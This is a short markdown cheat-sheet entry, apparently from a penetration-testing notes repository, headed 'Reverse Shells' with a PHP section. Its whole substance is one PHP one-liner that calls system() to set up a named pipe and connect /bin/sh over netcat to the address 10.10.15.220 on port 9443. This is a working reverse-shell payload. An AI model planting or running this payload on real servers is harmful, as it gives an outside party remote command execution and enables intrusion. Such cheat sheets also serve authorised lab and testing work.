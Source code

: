 # Reverse Shells  

## PHP  

PHP with bash system command.  

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.220 9443 >/tmp/f"); ?>`
